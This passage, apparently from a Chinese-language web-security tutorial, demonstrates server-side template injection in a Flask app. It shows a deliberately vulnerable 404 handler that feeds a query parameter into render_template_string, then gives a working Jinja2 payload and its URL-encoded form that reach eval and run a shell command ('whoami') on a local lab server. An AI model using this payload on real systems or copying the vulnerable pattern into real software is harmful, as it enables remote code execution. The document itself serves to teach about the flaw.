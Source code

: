 ```plain
{%% block body %%}
    <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s/h3>
    </div> <
{%% endblock %%}
''' % (request.args.get('404_url'))
    return render_template_string(template), 404

if __name__ == '__main__':
    app.run(host='0.0.0.0',debug=True)
    
    
启动代码环境：http://127.0.0.1:5000/
当去访问不存在的地址时候，就会触发代码：
{%% block body %%}
    <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>
    </div> 
{%% endblock %%}

比如访问http://127.0.0.1:5000/daefada?404_url=1，就会在页面中显示1，因为404_url进行了传参。
render_template_string是用来渲染的，将数据进行显示。

如果这个404_url传入的参数为恶意代码，那就会形成注入，就是ssti注入。具体在前面的课程讲过。
利用POC：
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("whoami").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}

然后进行url编码：
http://127.0.0.1:5000/daefada?404_url=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22whoami%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913135038165-1676966163.png)
